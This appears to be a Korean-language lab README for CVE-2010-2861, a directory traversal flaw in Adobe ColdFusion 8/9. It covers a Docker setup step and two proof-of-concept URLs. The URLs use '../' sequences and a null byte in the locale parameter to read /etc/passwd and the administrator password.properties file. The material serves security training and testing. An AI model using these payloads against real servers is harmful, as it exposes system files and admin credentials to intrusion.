

# Adobe ColdFusion 디렉토리 순회 취약점 (CVE-2010-2861)


Adobe ColdFusion은 1995년 J. J. Allaire가 만든 상업용 웹 애플리케이션 개발 컴퓨팅 플랫폼입니다

Adobe ColdFusion 9.0.1 이전 버전에는 디렉토리 순회 취약성이 있으며, 이를 통해 원격 공격자가 로케일 매개 변수를 통해 (1) CFIDE/administrator/settings/mappings.cfm, (2) logging/settings.cfm, (3) datasources/index.cfm, (4) j2e packaging/editarchive.cfm 및 (5) Enter.cfm을 CFIDE/administrator/를 읽을 수 있습니다.

## 환경 설정

다음 명령을 실행하여 Adobe CouldFusion 8.0.1 서버를 시작합니다.

```
docker compose up -d
```

서버를 시작하는 데 1~5분 정도 걸릴 수 있습니다. 그 후아래 페이지에 방문합니다.
http://your-ip:8500/CFIDE/administrator/enter.cfm 방문하면 초기 설정 페이지를 볼 수 이ㅣㅆ습니다. admin 패스워드를 입력하면 전체 서버가 초기화 됩니다.

## POC

파일을 읽어오기 위해 /etc/passwd 경로로 http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en:



다음을 통해 백그라운드 관리자 암호 읽기를 읽어옵니다.
http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/ password.properties%00en:


